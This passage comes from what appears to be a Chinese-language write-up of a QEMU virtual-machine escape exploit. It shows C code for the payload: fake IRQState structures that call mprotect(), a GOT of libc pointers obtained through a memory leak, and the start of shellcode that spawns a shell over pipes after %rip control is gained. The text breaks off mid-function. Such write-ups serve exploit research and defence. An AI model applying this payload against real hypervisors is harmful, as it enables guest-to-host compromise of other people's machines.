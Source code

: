 ```c
struct payload {
	struct IRQState    fake_irq[2];
	struct shared_data shared_data;
	uint8_t            shellcode[1024];
	uint8_t            pipe_fd2r[1024];
	uint8_t            pipe_r2fd[1024];
};
```

其中 `fake_irq` 是一对负责调用 `mprotect()` 并更改 payload 所在页面权限的 IRQState 结构体。

结构体 `shared_data` 用于传递参数给主要的 shellcode：

```c
struct shared_data {
	struct GOT       got;
	uint8_t          shell[64];
	hptr_t           addr;
	struct shared_io shared_io;
	volatile int     done;
};
```

其中 got 结构体充当全局偏移表，它包含 shellcode 运行的主要函数地址。这些函数地址可以通过内存泄露得到。

```c
struct GOT {
	typeof(open)           *open;
	typeof(close)          *close;
	typeof(read)           *read;
	typeof(write)          *write;
	typeof(dup2)           *dup2;
	typeof(pipe)           *pipe;
	typeof(fork)           *fork;
	typeof(execv)          *execv;
	typeof(malloc)         *malloc;
	typeof(madvise)        *madvise;
	typeof(pthread_create) *pthread_create;
	typeof(pipe_r2fd)      *pipe_r2fd;
	typeof(pipe_fd2r)      *pipe_fd2r;
};
```

主要的 shellcode 由下面的函数定义：

```c
* main code to run after %rip control */
void shellcode(struct shared_data *shared_data)
{
	pthread_t t_in, t_out, t_err;
	int in_fds[2], out_fds[2], err_fds[2];
	struct brwpipe *in, *out, *err;
	char *args[2] = { shared_data->shell, NULL };

	if (shared_data->done) {
		return;
	}

	shared_data->got.madvise((uint64_t *)shared_data->addr,
	                         PHY_RAM, MADV_DOFORK);

	shared_data->got.pipe(in_fds);
	shared_data->got.pipe(out_fds);
	shared_data->got.pipe(err_fds);

	in = shared_data->got.malloc(sizeof(struct brwpipe));
	out = shared_data->got.malloc(sizeof(struct brwpipe));
```